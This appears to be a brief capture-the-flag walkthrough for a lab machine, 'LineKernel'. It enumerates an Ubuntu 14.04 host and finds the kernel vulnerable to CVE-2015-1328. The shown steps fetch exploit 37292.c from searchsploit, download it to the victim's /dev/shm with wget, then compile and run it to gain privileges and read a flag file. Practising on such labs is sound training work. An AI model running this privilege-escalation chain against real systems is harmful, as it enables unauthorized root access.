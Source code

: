 | Title | IP Address |
| :---- | :---- |
| LineKernel | 10.10.247.118 |

```bash
hostname
```

> `wade7363`

```bash
uname -a
```

> `3.13.0-24-generic`

```bash
cat /etc/issue
```

> `Ubuntu 14.04 LTS`

```bash
python --version
```

> `2.7.6`

Google: `3.13.0-24-generic`

> `CVE-2015-1328`

```bash
searchsploit linux kernel 3.13.0
```

> `linux/local/37292.c`

```bash
cp /usr/share/exploitdb/exploits/linux/local/37292.c .
python3 -m http.server 80   
```

Victim:

```bash
cd /dev/shm
wget http://<LOCALHOST>/37292.c
gcc 37292.c -o 37292
./37292
``` 

Find (flag1.txt)

```bash
find -type f -name flag1.txt
```

> `/home/matt/flag1.txt`

```bash
cat /home/matt/flag1.txt
```
